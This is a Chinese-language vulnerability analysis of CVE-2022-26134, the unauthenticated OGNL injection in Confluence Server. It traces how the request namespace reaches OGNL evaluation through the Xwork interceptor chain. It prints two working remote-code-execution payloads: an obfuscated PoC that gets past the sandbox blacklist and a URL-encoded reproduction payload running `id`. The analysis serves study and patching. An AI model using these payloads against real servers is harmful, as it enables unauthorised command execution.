










- [CVE-2022-26134 未授权 OGNL表达式注入](#cve-2022-26134-未授权-ognl表达式注入)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [DefaultActionInvocation](#defaultactioninvocation)
    - [ConfluenceAccessInterceptor](#confluenceaccessinterceptor)
    - [executeResult](#executeresult)
    - [ActionChainResult](#actionchainresult)
    - [TextParseUtil](#textparseutil)
    - [关于沙盒](#关于沙盒)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-26134 未授权 OGNL表达式注入
## 影响版本
All supported versions of Confluence Server and Data Center are affected.
Confluence Server and Data Center versions after 1.3.0 are affected.
## 环境搭建
`docker run --name="confluence" -e JVM_SUPPORT_RECOMMENDED_ARGS="-Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:5005" -d
 -p 8090:8090 -p 5005:5005 -p 8091:8091 atlassian/confluence-server:7.12.4-ubuntu-18.04-adoptopenjdk11`
## 原理分析
### DefaultActionInvocation
Coufluence是基于Xwork框架开发,在执行一个action前,该请求会经过设置的拦截器进行处理后再生成对应的action对象执行.  
而拦截器是链式结构,其中链式的实现过程如下:
  
在DefaultActionInvocation类中的invoke()方法开始进行拦截器的循环遍历执行,最终得到一个resultCode.  
可以看到在拦截器调用时,传入了一个参数为DefaultActionInvocation类本身,这是因为在每一个拦截器中,其完成相应功能后会调用传入的这个DefaultActionInvocation对象的invoke方法,从而再次进入该DefaultActionInvocation类中,以此来循环执行所有注册的拦截器.  
以FlashScopeInterceptor拦截器为例  
  
可以看到最后调用的actionInvocation.invoke()即是返回DefaultActionInvocation类中继续调用下一个拦截器.
### ConfluenceAccessInterceptor
而某些拦截器中,可能不会继续调用actionInvocation.invoke()来跳出拦截器的循环.  
以ConfluenceAccessInterceptor拦截器为例,该拦截器是充当一个权限校验的功能,可以看到如果请求的action不允许访问则会返回一个字符串来跳出拦截器的执行链.  

### executeResult
而在拦截器执行完成后且该action还未被执行就会进行下面的流程,其中会调用this.executeResult()方法.
  
而在executeResult中则会通过createResult来得到一个Result,在createResult主要是根据proxy类型来生成对应的Result对象.  
  
而在DefaultActionInvocation类中,proxy类型为ActionProxy.
  
所以此处返回的的Result对象其实为ActionChainResult实例对象.  
然后得到result对象后继续执行result对象的execute方法.
### ActionChainResult
在ActionChainResult类的execute中首先获取到Namespace,然后和一个OGNL执行栈一起带入到TextParseUtil.translateVariables()方法中.  
  
而Namespace的值则是在ServletDispatcher分发器在创建DefaultActionInvocation时指定.  
  
可以看到Namespace的值即为请求URL中第一个`/`前的字符串.  
  
### TextParseUtil
而在TextParseUtil中可以看到namespace的值经过正则之后被直接带入了OGNL表达式中进行计算,导致OGNL表达式注入.  

### 关于沙盒
因为去年confluence也存在一个OGNL表达式注入漏洞,所以7.15之后的版本都增加了一个OGNL执行的黑名单.但黑名单总会被绕过的,在最新的黑名单限制中没有限制class.forname()获取类对象来反射调用,所以如下poc也可:
```
${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-CMD",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("eval(String.fromCharCode(118,97,114,32,115,61,39,39,59,118,97,114,32,112,112,32,61,32,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,46,101,120,101,99,40,39,105,100,39,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,59,119,104,105,108,101,32,40,49,41,32,123,118,97,114,32,98,32,61,32,112,112,46,114,101,97,100,40,41,59,105,102,32,40,98,32,61,61,32,45,49,41,32,123,98,114,101,97,107,59,125,115,61,115,43,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,98,41,125,59,115))"))}
```
## 漏洞复现
`%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/`

## 补丁
不再使用TextParseUtil类对namespace等进行处理.

## 参考
https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html  
https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2022-26134/README.zh-cn.md